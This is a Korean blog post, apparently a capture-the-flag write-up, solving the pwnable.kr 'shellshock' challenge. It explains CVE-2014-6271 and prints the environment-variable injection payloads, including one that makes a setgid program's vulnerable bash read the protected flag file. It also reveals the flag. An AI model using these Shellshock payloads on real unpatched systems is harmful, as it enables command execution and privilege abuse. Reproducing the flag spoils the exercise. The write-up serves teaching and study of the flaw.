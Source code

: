 ```yaml
---
layout: post
title: ! "[Pwnable.kr] Toddler's Bottle - shellshock 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Pwnable.kr]
tags:
  - Write-up
  - Pwnable.kr
---
```


밤에 바로 잘까 하다가 갑자기 1pt 짜리 shellshcok 문제가 있었다는 것이 생각나 후딱 풀어보았다.  

예전에 CTF에서 나왔던 걸 풀어봐서인지 금방 풀 수 있었다.  

<!--more-->
  
문제 접속 정보는 아래와 같다.  

* ssh shellshock@pwnable.kr -p2222 (pw:guest)

문제에 접속하면 4개의 파일을 확인할 수 있다.  

> -r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 `bash`  
> -r--r-----  1 root shellshock_pwn     47 Oct 12  2014 `flag`  
> -r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 `shellshock`  
> -r--r--r--  1 root root              188 Oct 12  2014 `shellshock.c`  

다른 문제들이랑 동일하게 실행파일, 소스코드, flag 파일이 있고, 이번에는 추가적으로 `bash`가 있다.   

`shellshock.c`의 내용은 다음과 같다.  

```c
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

소스코드가 굉장히 짧다.  

다른 문제들에 비해 비교적 간단한데 이 중 주의깊게 봐야 할 부분은 `system()` 함수를 호출하는 부분이다.  

`system()` 함수를 호출 해 `/home/shellshock/bash -c 'echo shock_me`를 실행시킨다.  

즉 현재 디렉토리에 있는 `bash`를 통해 `echo shock_me`를 실행시키는 것이다.  

`shellshock` 취약점은 하도 유명한 취약점이라 한번쯤은 이름이라도 들어봤을 것 같다.  

그래서 현재 디렉토리에 있는 `bash`가 `shellshock` 취약점을 사용할 수 있는 버전인지 확인을 해 보았다.  

먼저 그냥 `bash`의 버전을 확인 해 보면 `4.3.48`로 `shellshock` 취약점에 취약한 버전이 아니다.  

```
shellshock@ubuntu:~$ bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

하지만 현재 디렉토리에 있는 `bash`의 버전은 `4.2.25`로 `shellshock`에 취약하다.  

```
shellshock@ubuntu:~$ ./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

그렇다면 `shellshock.c`에서 `shellshock` 취약점을 사용할 수 있는 현재 디렉토리의 `bash`를 사용 해 특정 명령어를 실행하니, `shellshock` 취약점을 사용 해 `flag`를 읽으면 될 것 같다.  

일단 `shellshock` 취약점을 테스트 해 볼 수 있는 방법은 다음과 같다.  

```
$ ​$ env x='() { :; }; echo test' bash -c "echo test2"
test
test2
```

특정 환경변수에 위와 같이 값을 입력한 후, `shellshock`에 취약한 `bash`를 실행시키면 함수의 종료부인 `;` 뒤의 추가적인 명령어 (위의 예시에서는 `echo test`)가 실행되는 것이다.  

(echo test2가 출력되는 이유는 새로운 bash를 이용 해 echo test2 명령어를 실행시켰기 때문이다.)  

처음에는 이게 왜 실행되는지 잘 이해가 되지 않았다.  

그래서 더 찾아보다가 취약점의 원인에 대해 잘 잘 설명한 블로그 글을 찾았다.  

> [Shellshock 설명 블로그](https://operatingsystems.tistory.com/entry/Shellshock-CVE20146271)  

위의 블로그에 따르면, `bash process`가 동작하는 순서는 다음과 같다.  

```
1. bash 실행
2. bash 환경변수 초기화
3. bash shell prompt 출력
4. 명령어 대기
5. (명령어 수행할 경우) 명령어를 문자열로 저장 해 해당 문자열 파싱
6. 파싱 된 구초제를 이용 해 명령어 수행
```

이 때, `shellshock` 취약점은 `2번` 과정에서 발생한다.  

환경변수를 초기화 할 때 함수의 종료를 의미하는 `;`를 끝으로 더 이상 인식하지 말아야하는데 이를 제대로 파악하지 못해 그 뒤의 명령어가 실행되는 취약점이다.  

다른 예를 들어 설명하면, `export x='() { echo test; }; echo test2'`에서 `export x='() { echo test; };`만을 환경변수 `x`의 값으로 넣어, `x` 실행 시 `echo test`가 나오도록 하고 나머지 부분은 무시하거나 따로 처리하도록 해야 하는데, `;` 뒤의 `echo test2`를 명령어로 인식하여 새로운 `bash` 실행 시 `echo test2`가 실행되는 것이다.  

이를 테스트 해 보면 다음과 같다.  

```
shellshock@ubuntu:~$ export x='() { echo test; }; echo test2'
shellshock@ubuntu:~$ ./bash
test2
shellshock@ubuntu:~$ x
test
```

원래의 `bash`에서 `x` 환경변수를 등록한 후 취약한 버전의 `bash`를 실행하면 자동으로 `echo test2`가 실행된다.  

새로운 `bash`가 실행되며 `x` 환경변수는 초기화 되었으므로 `x`의 값은 새로운 `bash`에서 `echo test`를 실행하는 함수로 설정되어 있어, `x` 실행 시 `echo test`가 실행된다.  

그렇다면 문제로 돌아가서, `shellshock.c` 코드에서는 취약한 버전의 `bash`를 새로 실행한다.  

또한 권한을 확인 해 보았을 때 `shellshock` 실행파일에 `SetUID`가 걸려있으므로, 해당 실행 파일의 권한을 이용 해 `bash`를 실행한다면, `flag` 또한 읽을 수 있다.  

그래서 x라는 이름으로 아래와 같은 환경변수를 등록했다.    

```
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
```

그러면 `shellshock` 실행파일에서 `system("/home/shellshock/bash -c 'echo shock_me'");`를 실행하며 새로운 `bash`를 실행시킬 것이며, 이 때 환경변수를 초기화 하며 `x`는 `echo test`를 실행하는 함수가 저장 될 것이다.  

또한 `;` 뒤의 `/bin/cat flag` 명령어를 실행하게 될 것이다.  

이 후 `shellshock`를 실행 해 본 결과 아래와 같이 플래그를 얻을 수 있었다. ㅎㅎ  

![]({{ site.baseurl }}/images/pwnable.kr/shellshock/shellshock_01.PNG)

```
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

```
FLAG : only if I knew CVE-2014-6271 ten years ago..!!
```
